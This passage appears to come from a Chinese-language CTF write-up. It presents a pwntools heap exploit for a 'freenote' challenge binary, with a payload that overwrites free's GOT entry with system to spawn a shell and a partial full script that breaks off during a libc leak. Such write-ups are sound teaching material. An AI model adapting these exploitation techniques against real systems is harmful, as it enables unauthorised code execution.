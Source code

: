 -

```
free_got = 0x602018

payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
payload2 += "A"* (notelen*3-len(payload2)) 

edit_note(0, payload2)
edit_note(0, p64(system_sh_addr))

delete_note(1)
```

修改之后通过delete触发，得到shell。

完整exp:

```
#!/usr/bin/env python
from pwn import *

p = process('./freenote')

libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def new_note(x):
    p.recvuntil("Your choice: ")
    p.send("2\n")
    p.recvuntil("Length of new note: ")
    p.send(str(len(x))+"\n")
    p.recvuntil("Enter your note: ")
    p.send(x)

def delete_note(x):
    p.recvuntil("Your choice: ")
    p.send("4\n")
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")

def list_note():
    p.recvuntil("Your choice: ")
    p.send("1\n")
    
def edit_note(x,y):
    p.recvuntil("Your choice: ")
    p.send("3\n")   
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")   
    p.recvuntil("Length of note: ")
    p.send(str(len(y))+"\n")   
    p.recvuntil("Enter your note: ")
    p.send(y)
    
####################leak libc#########################

notelen=0x80

new_note("A"*notelen)
new_note("B"*notelen)
delete_note(0)

new_note("\x78")
#gdb.attach(p)
list_note()
p.recvuntil("0. ")
```